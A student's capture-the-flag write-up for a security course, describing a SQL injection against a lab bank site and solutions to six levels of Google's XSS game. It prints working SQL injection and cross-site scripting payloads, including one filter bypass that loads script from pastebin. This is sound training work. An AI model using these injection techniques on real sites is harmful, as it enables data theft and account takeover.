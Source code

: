 # Crypto II Writeup

Name: Tuan Le
Section: 0201

I pledge on my honor that I have not given or received any unauthorized
assistance on this assignment or examination.

Digital acknowledgement: Tuan Le

## Assignment Writeup

### Part 1 (40 Pts)

Since this website does not have any place for user input, I knew the sql injection attack had to be within the url itself. To get all the
records in the database, I knew I could sneak in a true boolean to the query so everything gets dumped. I entered this into the url:
'1337bank.money:5000/item?id=1'||1=1-- -'. At first I tried to use 'or' instead of '||' but the server detected that it was an
sql injection attack, and stopped it. I added the '-- -' at the end to make sure the rest of the query is commented out. Running this url
gave me all the contents of the website along with the flag. The flag is CMSC389R-{y0u_ar3_th3_SQ1_ninj@}

### Part 2 (60 Pts)

Level 1: This level presented a simple search box. I ran '<script>alert(1)</script>' in the search bar to pop up a JavaScript alert. This command injects a simple script to be ran inside the search bar.

Level 2: In the post box, I entered '<img src=i onerror=javascript:alert(1)></img>' which popped the alert. Since the script tags would not work, I had to use the img tags with the onerror attribute.

Level 3: For this level, I knew the injection had to be in the URL. To find where I could do the injection, I looked at the JavaScript and found a vulnerability in window.location. I saw that the num argument is used to generatate the img tags. To insert the JavaScript, I used the onerror attribute again. I modified my injection from level 2 to be 'https://xss-game.appspot.com/level3/frame#3' onerror='alert(1)';

Level 4: Immediately I knew that for this level, there was some way to escape the function and append the alert() call. After looking up '%3B' which represents the semi-colon, I was able to use it to terminate the call and then insert the alert(). The final url was 'https://xss-game.appspot.com/level4/fran??timer=4')%3Balert('xss' which popped the alert.

Level 5: This level also presented a search box. While looking at the JavaScript, I noticed that the 'next' parameter was being used for redireciton. It is being used as tag target so I inserted the alert() there. In the search box, I ran 'https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)' which worked.

Level 6: The mission objective for this level was the make the application request an external file which will cause an alert(). So for this level, I created a pastebin that just had alert(1). Looking at the JavaScript, I found out that anything containing 'http' would be rejected. However, I realized that the match for 'http' is not case sensitve. Using this loophole, I used 'hTTPs' instead. The final url I ran was 'https://xss-game.appspot.com/level6/frame#hTTPs://pastebin.com/p47gTvFs
